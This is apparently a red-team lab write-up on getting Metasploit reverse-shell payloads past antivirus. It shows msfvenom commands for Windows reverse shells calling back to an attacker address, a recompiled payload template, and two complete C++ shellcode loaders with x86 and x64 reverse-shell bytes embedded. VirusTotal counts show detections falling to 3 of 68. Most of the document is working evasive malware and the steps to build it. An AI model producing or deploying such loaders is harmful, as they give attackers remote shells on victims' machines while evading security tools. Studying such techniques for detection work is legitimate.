 # AV Bypass with Metasploit Templates and Custom Binaries

This is a quick look at a couple of simple ways that **attempt** to bypass antivirus vendors for your shellcodes.

## 48/68 detections

For a baseline test, let's generate the standard MSF reverse shell payload for a 32 bit Windows system:

```text
root@~# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f exe > /root/tools/av.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Checking the file in [VirusTotal](https://www.virustotal.com/#/file/ebf62a6140591b6ccf81035a7f06b3a6580144cfa5a9de0ad49dd323c4513ee3/detection) gives the following detection rate:

![](../../.gitbook/assets/msf-templates-default-payload.png)

## 36/68 detections

When generating metasploit payloads, our specified shellcode gets injected into the template binaries. The payload we generated earlier got injected into the template for which the source code is provided below:

![](../../.gitbook/assets/msf-template.png)

Out of curiosity, let's simply recompile the standard template:

```text
root@/usr/share/metasploit-framework/data/templates/src/pe/exe# i686-w64-mingw32-gcc template.c -lws2_32 -o avbypass.exe
```

...and regenerate the payload using the newly compiled template:

```text
root@~# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -x /usr/share/metasploit-framework/data/templates/src/pe/exe/avbypass.exe -f exe > /root/tools/avbypass.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 363382 bytes
```

[VirusTotal](https://www.virustotal.com/#/file/c311065c151bdd98efc3c413016a7817f6089985e799121007dd993230c530bd/detection) detections for the new executable dropped from 48 to 36 and that did not require any code change!

![](../../.gitbook/assets/msf-template-vt2.png)

## 32/66 detections

If we make a couple of small changes to the code for memory allocation sizes:

![](../../.gitbook/assets/msf-template-sizes.png)

...it seems that we can further reduce [VirusTotal](https://www.virustotal.com/#/file/1b2dc633c5709435cd956e214f5417488c04e39ac58ccf5aa8bba4813dc9c005/detection) detections albeit not by much - this time they drop from 36 to 32:

![](../../.gitbook/assets/msf-template-vt3.png)

## 8/68 detections - custom x86 binary

Let's do something a bit more custom - build a binary from the previous lab [CreateRemoteThread Shellcode Injection](../code-injection-process-injection/process-injection.md) that is based on the payload:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c
```

{% code-tabs %}
{% code-tabs-item title="inject-local-process.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main()
{
	unsigned char shellcode[] =
		"\xbd\x85\x3b\x76\xa3\xda\xd8\xd9\x74\x24\xf4\x5b\x33\xc9\xb1"
		"\x52\x31\x6b\x12\x83\xeb\xfc\x03\xee\x35\x94\x56\x0c\xa1\xda"
		"\x99\xec\x32\xbb\x10\x09\x03\xfb\x47\x5a\x34\xcb\x0c\x0e\xb9"
		"\xa0\x41\xba\x4a\xc4\x4d\xcd\xfb\x63\xa8\xe0\xfc\xd8\x88\x63"
		"\x7f\x23\xdd\x43\xbe\xec\x10\x82\x87\x11\xd8\xd6\x50\x5d\x4f"
		"\xc6\xd5\x2b\x4c\x6d\xa5\xba\xd4\x92\x7e\xbc\xf5\x05\xf4\xe7"
		"\xd5\xa4\xd9\x93\x5f\xbe\x3e\x99\x16\x35\xf4\x55\xa9\x9f\xc4"
		"\x96\x06\xde\xe8\x64\x56\x27\xce\x96\x2d\x51\x2c\x2a\x36\xa6"
		"\x4e\xf0\xb3\x3c\xe8\x73\x63\x98\x08\x57\xf2\x6b\x06\x1c\x70"
		"\x33\x0b\xa3\x55\x48\x37\x28\x58\x9e\xb1\x6a\x7f\x3a\x99\x29"
		"\x1e\x1b\x47\x9f\x1f\x7b\x28\x40\xba\xf0\xc5\x95\xb7\x5b\x82"
		"\x5a\xfa\x63\x52\xf5\x8d\x10\x60\x5a\x26\xbe\xc8\x13\xe0\x39"
		"\x2e\x0e\x54\xd5\xd1\xb1\xa5\xfc\x15\xe5\xf5\x96\xbc\x86\x9d"
		"\x66\x40\x53\x31\x36\xee\x0c\xf2\xe6\x4e\xfd\x9a\xec\x40\x22"
		"\xba\x0f\x8b\x4b\x51\xea\x5c\x7e\xa6\xf4\x99\x16\xa4\xf4\xa0"
		"\x5d\x21\x12\xc8\xb1\x64\x8d\x65\x2b\x2d\x45\x17\xb4\xfb\x20"
		"\x17\x3e\x08\xd5\xd6\xb7\x65\xc5\x8f\x37\x30\xb7\x06\x47\xee"
		"\xdf\xc5\xda\x75\x1f\x83\xc6\x21\x48\xc4\x39\x38\x1c\xf8\x60"
		"\x92\x02\x01\xf4\xdd\x86\xde\xc5\xe0\x07\x92\x72\xc7\x17\x6a"
		"\x7a\x43\x43\x22\x2d\x1d\x3d\x84\x87\xef\x97\x5e\x7b\xa6\x7f"
		"\x26\xb7\x79\xf9\x27\x92\x0f\xe5\x96\x4b\x56\x1a\x16\x1c\x5e"
		"\x63\x4a\xbc\xa1\xbe\xce\xcc\xeb\xe2\x67\x45\xb2\x77\x3a\x08"
		"\x45\xa2\x79\x35\xc6\x46\x02\xc2\xd6\x23\x07\x8e\x50\xd8\x75"
		"\x9f\x34\xde\x2a\xa0\x1c";

	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();

    return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

This time [VirusTotal](https://www.virustotal.com/#/file/f4dfceb473a878a3751513bacb4d44ee460391ce1a668edb5337d4859e767335/detection) detections dropped dramatically to 8/68:

![](../../.gitbook/assets/msf-vt5.png)

## 3/68 detections - custom x64 binary

The above binaries were all for a x86 architecture. Let's try generating the shellcode for a x64 system and use the same custom binary:

```csharp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c -b \x00\x0a\x0d
```

{% code-tabs %}
{% code-tabs-item title="inject-local-process.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main()
{
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
		"\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
		"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
		"\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
		"\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
		"\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
		"\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
		"\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
		"\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
		"\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
		"\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
		"\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
		"\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
		"\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
		"\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
		"\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
		"\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
		"\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
		"\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
		"\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
		"\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
		"\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
		"\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
		"\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
		"\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
		"\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
		"\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
		"\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
		"\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
		"\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
		"\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
		"\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
		"\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
		"\x94\x64\x5d\xae\x2b\x90\xe1\xec";

	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();

    return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

[VirusTotal](https://www.virustotal.com/#/file/d1431f479724822d6ccf8684a99598d966a9b5a964e7bd3886308a0217dea712/detection) now only shows **3/68** detections, which is a great improvement that enables us bypassing most of the popular antivirus vendors:

![](../../.gitbook/assets/msf-vt4.png)

## References

{% embed url="https://www.offensive-security.com/metasploit-unleashed/backdooring-exe-files/" %}

